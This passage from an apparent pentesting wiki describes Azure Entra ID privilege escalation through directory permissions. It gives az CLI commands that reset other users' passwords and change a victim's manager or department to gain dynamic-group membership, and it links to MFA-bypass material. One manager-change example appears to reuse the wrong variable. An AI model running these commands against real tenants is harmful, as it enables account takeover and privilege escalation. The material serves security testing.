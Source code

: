 It might be possible for users to escalate privileges modifying their own properties to be added as members of dynamic groups. For more info check:

{% content-ref url="dynamic-groups.md" %}
[dynamic-groups.md](dynamic-groups.md)
{% endcontent-ref %}

## Users

### `microsoft.directory/users/password/update`

This permission allows to reset password to non-admin users, allowing a potential attacker to escalate privileges to other users. This permission cannot be assigned to custom roles.

```bash
az ad user update --id <user-id> --password "kweoifuh.234"
```

### `microsoft.directory/users/basic/update`

This privilege allows to modify properties of the user. It's common to find dynamic groups that add users based on properties values, therefore, this permission could allow a user to set the needed property value to be a member to a specific dynamic group and escalate privileges.

{% code overflow="wrap" %}
```bash
#e.g. change manager of a user
victimUser="<userID>"
managerUser="<userID>"
az rest --method PUT \
  --uri "https://graph.microsoft.com/v1.0/users/$managerUser/manager/\$ref" \
  --headers "Content-Type=application/json" \
  --body '{"@odata.id": "https://graph.microsoft.com/v1.0/users/$managerUser"}'
  
#e.g. change department of a user
az rest --method PATCH \
  --uri "https://graph.microsoft.com/v1.0/users/$victimUser" \
  --headers "Content-Type=application/json" \
  --body "{\"department\": \"security\"}"
```
{% endcode %}

## Conditional Access Policies & MFA bypass

Misconfigured conditional access policies requiring MFA could be bypassed, check:

{% content-ref url="az-conditional-access-policies-mfa-bypass.md" %}
[az-conditional-access-policies-mfa-bypass.md](az-conditional-access-policies-mfa-bypass.md)
{% endcontent-ref %}

## Devices

### `microsoft.directory/devices/registeredOwners/update`
